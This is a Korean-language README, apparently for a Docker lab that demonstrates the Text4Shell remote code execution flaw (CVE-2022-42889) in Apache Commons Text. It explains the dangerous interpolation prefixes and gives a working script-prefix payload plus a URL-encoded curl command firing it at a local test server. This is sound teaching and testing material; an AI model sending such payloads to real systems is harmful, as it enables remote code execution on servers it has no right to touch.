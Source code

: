 # Apache Commons Text 원격 코드 실행 취약점 (CVE-2022-42889)

Apache Commons Text의 원격 코드 실행 취약점 (CVE-2022-42889, 일명 Text4Shell)을 시연하는 Docker 기반 환경을 구성한다.

---

## 취약점 개요

| 항목 | 내용 |
|:---|:---|
| 취약점 ID | CVE-2022-42889 |
| 영향 라이브러리 | Apache Commons Text |
| 문제 기능 | 문자열 보간 (String Interpolation) |
| CVSS 점수 | 9.8 (심각) |
| 영향 받는 버전 | 1.5 ~ 1.9 |
| 패치된 버전 | 1.10.0 이상 |

---

## 취약점 발생 원리

Apache Commons Text의 `StringSubstitutor` 클래스는 `${prefix:name}` 형식의 문자열 템플릿을 평가한다.  
취약한 버전에서는 다음과 같은 위험한 접두사가 기본 활성화되어 있다.

- `script:` : JVM 스크립트 엔진을 통한 코드 실행
- `dns:` : DNS 레코드 조회
- `url:` : 외부 URL에서 데이터 로드

공격자는 악성 입력을 통해 서버 측에서 임의의 명령어를 실행할 수 있다.

악성 입력 예시는 다음과 같다.

```text
${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/hacked')}
```

### 디렉터리 구조
```text
CVE-2022-42889/
├── docker-compose.yml
├── Dockerfile
└── app/
    ├── pom.xml
    └── src/
        └── main/
            └── java/
                └── com/
                    └── example/
                        └── DemoApplication.java
```

### 시연
컨테이너 빌드 및 실행
``` text
docker-compose up --build -d
```
악성 입력 전달 (${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/hacked')} 인코딩 후, 입력)
``` text
curl "http://localhost:8080/test?input=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch%20%2Ftmp%2Fhacked%27%29%7D"
```
컨테이너 내부 파일 생성 여부 확인
